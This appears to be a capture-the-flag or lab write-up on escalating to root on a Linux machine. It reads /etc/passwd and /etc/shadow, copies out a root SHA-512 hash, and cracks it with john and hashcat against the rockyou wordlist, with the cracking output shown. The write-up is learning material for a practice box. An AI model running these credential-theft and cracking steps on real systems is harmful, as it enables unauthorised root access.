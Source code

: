 # Lesson
- `john`
- `hashcat`

# Memo  
1. initial access  
    ```
    > (password)
    > DEF CON
    > John Draper
    ```
2. privilege escalation  
    - check  
        On remote machine.  
        ```zsh
        $ cat /etc/passwd
        $ cat shadow
        ```
    - get "/etc/shadow"  
        On local machine.  
        ```zsh
        $ vim ./passwd.txt
        root:x:0:0:root:/root:/bin/bash
        $ vim ./shadow.txt
        root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:19791:0:99999:7:::
        ```
    - crack password for root  
        - method1: WSL  
        ```zsh
        $ unshadow ./passwd.txt ./shadow.txt > johnpasswd.txt
        $
        $ cat johnpasswd.txt
        root:$6$6QFbdp2H$R0BGBJtG0DlGFx9H0AjuQNOhlcssBxApM.CjDEiNzfYkVeJRNy2d98SDURNebD5/l4Hu2yyVk.ePLNEg/56DV0:0:0:root:/root:/bin/bash
        $
        $ sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./johnpasswd
        Created directory: /root/.john
        Loaded 1 password hash (crypt, generic crypt(3) [?/64])
        Will run 2 OpenMP threads
        Press 'q' or Ctrl-C to abort, almost any other key for status
        iloveyou         (root)
        1g 0:00:00:00 100% 5.263g/s 505.2p/s 505.2c/s 505.2C/s 123456..yellow
        Use the "--show" option to display all of the cracked passwords reliably
        Session completed
        ```
        - method2: Kali  
        ```zsh
        $ grep ENCRYPT_METHOD /etc/login.defs
        $ hashcat -h | grep sha512
        $ hashcat -m 1800 -a 0 shadow.txt /usr/share/wordlists/rockyou.txt
        ```
    - privilege escalation  
        ```zsh
        $ su root
        > (cracked password)
        # cat /root/flag.txt
        ```

    # Ref  
    - https://www.makeuseof.com/use-hashcat-to-crack-hashes-linux/  